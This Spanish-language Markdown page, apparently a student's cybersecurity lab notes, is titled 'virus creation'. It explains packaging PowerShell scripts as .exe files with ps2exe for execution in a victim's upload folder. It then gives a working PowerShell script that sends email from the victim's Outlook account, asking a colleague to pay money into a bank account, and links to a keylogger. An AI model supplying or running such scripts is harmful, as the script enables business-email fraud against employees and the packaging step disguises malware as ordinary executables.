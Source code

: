 # CREACIÓN DE VIRUS

Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
<br/>
Para mas dudas con la instalación visita [ESTE ENLACE](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/).

## MODUS OPERANDI
Para crear el laboratorio, vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.
```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```








### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
